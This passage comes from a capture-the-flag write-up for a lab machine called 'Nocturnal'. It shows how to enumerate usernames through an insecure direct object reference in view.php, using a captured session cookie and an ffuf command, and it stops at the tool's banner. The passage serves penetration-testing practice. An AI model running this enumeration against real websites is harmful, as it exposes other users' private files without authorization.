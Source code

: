 This line:
```
<a href="view.php?username=test01&file=test.pdf">
```

The test.pdf file corresponds the test file I just uploaded, with my username. Maybe this means we can see other users's files by fuzzing?

This is what happens when the user and file is incorrect: 
The "file does not exists" message and no available files for download.
![[nocturnal02.png]]

And this is what happens when the user is correct but not the file:
The "file does not exists" message BUT displays all the users's files under available files:
![[nocturnal03.png]]

How can I fuzze this? Filtering with the response size, because the correct response (incorrect file but correct user) has more information than the incorrect response, as it has the other user's files.

I also need the PHPSESSID cookie, because I can't access any user without first being logged in.
We can pass the cookie with the `-H` flag, which adds headers. I use burpsuite to see how the cookie is passed to the server.
```
POST /dashboard.php HTTP/1.1
Host: nocturnal.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://nocturnal.htb/dashboard.php
Content-Type: multipart/form-data; boundary=---------------------------266523311133101992791206543356
Content-Length: 518
Origin: http://nocturnal.htb
Connection: keep-alive
Cookie: PHPSESSID=k7b149mhb500qsuu08e22cgkpp
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

I got it, is `Cookie: PHPSESSID=k7b149mhb500qsuu08e22cgkpp`

I finally use `fuff` for fuzzing the user, I don't use the response size filter right now, as I first want to know the file size of the incorrect user:
```
┌──(oriol㉿zero)-[~/htb/nocturnal/wordlist]
└─$ ffuf -u 'http://nocturnal.htb/view.php?username=FUZZ&file=test.pdf' -w usernames.txt -H 'Cookie: PHPSESSID=k7b149mhb500qsuu08e22cgkpp'

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://nocturnal.htb/view.php?username=FUZZ&file=test.pdf
 :: Wordlist         : FUZZ: /home/oriol/htb/nocturnal/wordlist/usernames.txt
 :: Header           : Cookie: PHPSESSID=k7b149mhb500qsuu08e22cgkpp
 :: Follow redirects : false
```